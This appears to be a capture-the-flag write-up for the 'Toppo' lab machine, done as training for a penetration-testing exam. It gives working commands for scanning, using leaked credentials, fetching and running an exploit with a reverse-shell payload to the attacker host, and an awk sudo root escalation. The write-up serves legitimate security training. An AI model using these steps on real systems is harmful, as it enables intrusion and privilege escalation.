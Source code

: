 ### Toppo Write-up


### Information Gathering

Step 0:

- Kali Linux IP:  192.168.56.102         ```ifconfig```
- Host Machine IP:   192.168.56.1 and 192.168.56.100 (host only)   ```ipconfig``` (It is a window machine)
- Target Machine IP:  192.168.56.101

Step 01: netdiscover -i eth1 -r 192.168.56.102/24

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/netdiscover.png)


### Scanning

Step 02:
- check whether host is alive
- ```nmap -sn 192.168.56.101``` (It is)
- ```nmap -sC -sV -A -p- 192.168.56.101 > nmap.txt```
- ```cat nmap.txt```

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/nmap.png)

Monologue: You can see there are few interesting ports are open; I will clean-up the output.

#### Cleaned Ouput
- 22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
- 80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
- 111/tcp   open  rpcbind 2-4 (RPC 100000)
  - rpcinfo:
     - program version   port/proto  service
     - 100000  2,3,4        111/tcp  rpcbind
     - 100000  2,3,4        111/udp  rpcbind
     - 100024  1          36544/udp  status
    - 100024  1          37431/tcp  status
- 37431/tcp open  status  1 (RPC \#100024)
#### and more
***

Step 03:
- As usual, I am going to open the browser and gonna check the ip with robots.txt and try all the ports I got here. If I get anything interesting I will enclose the screenshot here.
- I browse the 192.168.56.101  (default port 80).

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/p80.png)

- I didn't get anything on port 111 and 37431. (little skeptical in my mind that I am missing something here). Anyway, I will do a nikto with each of the port; and will report only when I find anything.

Step 04:
- ```nikto -h 192.168.56.101 > nikto80.txt```
- ```nikto -h 192.168.56.101 -p 111 > nikto80.txt```  (didn't work)
- ```nikto -h 192.168.56.101 -p 37431 > nikto80.txt``` (no webserver found)
- ```cat nikto80.txt```

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/nikto80.png)

Monologue: There is directory indexing
- 192.168.56.101/admin
- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/admin.png)

- We found an interesting notes.txt file as well

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/notes_in_admin.png)


- ```Note to myself :
I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .```

- Password: 12345ted123  (fishing and soccer)
- username: ted or ted123 (my guess)

- 192.168.56.101/img
- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/img.png)

Monologue: Although it looks harmless but I have seen stegnographed photo in the past. Therefore, I don't want to take chance. I am gonna download all and keep it for backup (further enumerate if I bump my head on the wall)

- [about-bg](/imgs/about-bg.jpg), [contact-bg](imgs/contact-bg.jpg), [home-bg](/imgs/home-bg.jpg), [post-bg](/imgs/post-bg.jpg), [post-sample-image.jpg](/imgs/post-sample-image.jpg)

- 192.168.56.101/mail
- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/mail.png)

Monologue: Although there is a PHP file here but it doesn't do much. I will keep it a low priority.

- 192.168.56.101/manual/https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/manual-https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images.png)

Monologue: I am afraid it is just a rabbit hole ??!!

- 192.168.56.101/manual

Monologue: Running Apache and version is 2.4

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/manual.png)

- 192.168.56.101/icons/README  (Nothing important)

***
Note: so far I got only this information.

- Password: 12345ted123  (fishing and soccer)
- username: ted or ted123 (my guess)
***
Step 05:

Let's check google, exploit-db, nist, packet-storm, cve, anything .. but find a working exploit.

- [exploit-db](https://www.exploit-db.com/exploits/34900/)

### How to use that exploit ?

- ```wget https://www.exploit-db.com/download/34900.py```
- ```python exploit.py payload=bind rhost=192.168.56.101 rport=80```
- or

- ```python exploit.py payload=reverse rhost=192.168.56.101 lhost=192.168.56.102 lport=80```

Note: I tried both port 80 and port 111. (other port didn't give me anything)

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/exploited.png)

Monologue: However it left me keep banging my head on table because my privilege escalation skill is rather rusty..
Therefore, I thought why not I just keep a note of it and target some low hanging fruit?!!
***
- Remember we have (check line 68 and 69 provided you need to recall how we got this :) Sometime happens)
- Password: 12345ted123  (fishing and soccer)
- username: ted or ted123 (my guess)

Step 06:
- Let me do a SSH using above credentials
- ```ssh ted@192.168.56.101```
- ```password: 12345ted123```

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/ssh.png)

- Before I get drive into privilege escalation part, let me check in the sudoers' list

- ```cat /etc/sudoers```

- ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/sudo.png)

Monologue: To be honest, I am not sure why I need to check sudoers, but many a times while I play with Vulhub, it become like habbit to check the source code etc (in this case I totally forgot. Anyway.)

- Let me google on /usr/bin/awk (remember it has NOPASSWD)

- [check this github](https://github.com/xapax/security/blob/master/privilege_escalation_-_linux.md)
- ```awk 'BEGIN {system("/bin/bash")}'``` (this command is executing)
- So I tried
  - ```awk 'BEGIN {system("ls /root")}'```  (Yes, shows there is a flag, which is the main goal of this task)
  - ```awk 'BEGIN {system("cat /root/flag.txt")}'```

  - ![](https://github.com/samduk/OSCP_Prep/tree/master/Toppo/images/flag.png)

Note: ```Congratulations ! there is your flag :0wnedlab{p4ssi0n_c0me_with_pract1ce}```

### Post Exploitation

- This is one the main important aspect once you get the access to the box. People usually hide some script in there to keep the persistent connection with the box and clean all the logs.

- However, we will not discuss much of it here. May be I will do a thorough research myself first and then discuss it with you :)

***

I am sure there are many ways to hack this machine and I am going to explore in the times to come. Rest of the weekend, I think it is better for me to polish my Linux Privilege Escalation skill to safe more time to pop the next machine :)

Happy Weekend to all!!  
